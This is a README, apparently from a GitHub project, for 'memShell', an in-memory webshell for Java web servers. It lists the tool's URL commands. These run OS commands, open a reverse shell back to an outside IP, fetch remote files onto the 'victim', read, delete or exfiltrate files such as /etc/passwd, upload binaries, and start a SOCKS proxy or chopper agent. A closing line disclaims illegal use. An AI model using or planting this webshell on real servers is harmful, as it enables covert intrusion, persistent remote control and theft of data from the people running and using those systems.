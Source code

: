 # memShell
a webshell resides in the memory of java web server

# Usage
* anyurl?pwd=pass //show this help page.  
* anyurl?pwd=pass&model=exec&cmd=whoami  //run os command.  
* anyurl?pwd=pass&model=connectback&ip=8.8.8.8&port=51 //reverse a shell back to 8.8.8.8 on port 51.  
* anyurl?pwd=pass&model=urldownload&url=http://xxx.com/test.pdf&path=/tmp/test.pdf //download a remote file via the victim's network directly.  
* anyurl?pwd=pass&model=list[del|show]&path=/etc/passwd  //list,delete,show the specified path or file.  
* anyurl?pwd=pass&model=download&path=/etc/passwd  //download the specified file on the victim's disk.  
* anyurl?pwd=pass&model=upload&path=/tmp/a.elf&content=this_is_content[&type=b]   //upload a text file or a base64 encoded binary file to the victim's disk.  
* anyurl?pwd=pass&model=proxy  //start a socks proxy server on the victim.  
* anyurl?pwd=pass&model=chopper  //start a chopper server agent on the victim.  

**!!!It is recommended to use the POST method to submit data.** 

# note
For learning exchanges only, do not use for illegal purposes.by rebeyond.
